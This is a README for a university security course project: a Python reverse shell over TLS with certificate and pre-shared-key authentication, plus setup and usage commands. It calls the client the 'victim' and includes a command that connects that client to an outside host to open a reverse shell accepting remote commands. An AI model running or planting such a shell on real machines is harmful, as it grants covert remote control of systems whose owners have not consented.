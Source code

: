 # Wireless Systems Security final project

*Authors: Pau de las Heras and Eric Roy*

*This is the final project of the Wireless Systems Security course from
the ML and Cybersecurity for Internet-Connected Systems MSc at EPSEM-UPC*

> **DISCLAIMER:** this code is published under the MIT license and only for
educational purposes. We are not responsible for any unethical usage of these
scripts.

---

## Outline

We enhance an existing [reverse shell application](https://github.com/frezazadeh/Security-Course-Labs/tree/main/Lab1-Reverse-shell)
by integrating critical security measures like TLS encryption and both server and client-side authentication.

## Features

- This is a reverse shell that works over TLS:
  - The server is authenticated by the client using a self-signed certificate (known and trusted by the client).
  - The client is authenticated by the server using a pre-shared key (PSK).
- This educative project has some limitations in scope:
  - This server can only listen to a single-client at a time. However, it can manage multiple connection sessions one after the other.
  - The server script is meant to run on a no-GUI server, and therefore only offers command line interaction via standard input and output (which in a real setting would be dumped to a log file, probably)
- Both the client and server script are fully customizable via command line arguments.
- All scripts have proper logging that can be adjusted via the centralized logging manager at `logger.py`. Again, in a realistic setting, this centralized logger could be easily adjusted to dump log messages into a DB for tracing purposes.

## Usage

Install the requirements using:

```
pip install -r requirements.txt
```

### Server-side

First, create a self-signed certificate on the server
(the machine that issues commands to the victim/client).

Assuming a Linux server, you can do so by running the following command: 
```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

This will generate a pair of files, one with the private key of the certificate (`key.pem`)
and another one with the public information (`cert.pem`).
The latter should be copied to the client machine
in order to authenticate the server (more on that in the following section).

You can run the server to listen for incoming connections with:
```
python3 server.py
```

This uses the default configuration, which can be adapted as needed via command line arguments, e.g.:
```
python3 server.py --port 5555 --private-key-path /home/user/key.pem --password 123456789
```

For more information on the available parameters use `-h` or `--help`:
```
python3 server.py --help
```

### Client-side

On the client machine, copy the `client.py` and `logger.py` files and the `cert.pem` file previously generated
(you can do so by copying it through SSH with `scp` or by any other means).
**DO NOT** copy the `key.pem` file, since that would defeat the purpose of public-key authentication
due to the client knowing the server's secrets.

You can run the client to connect to the server
and open a reverse shell that accepts incoming commands with:
```
python3 client.py
```

This uses the default configuration, which can be adapted as needed via command line arguments, e.g.:
```
python3 client.py --host asi.ericroy.net --port 5555 --password 123456789 --public-key-path /home/user/cert.pem
```

For more information on the available parameters use `-h` or `--help`:
```
python3 client.py --help
```

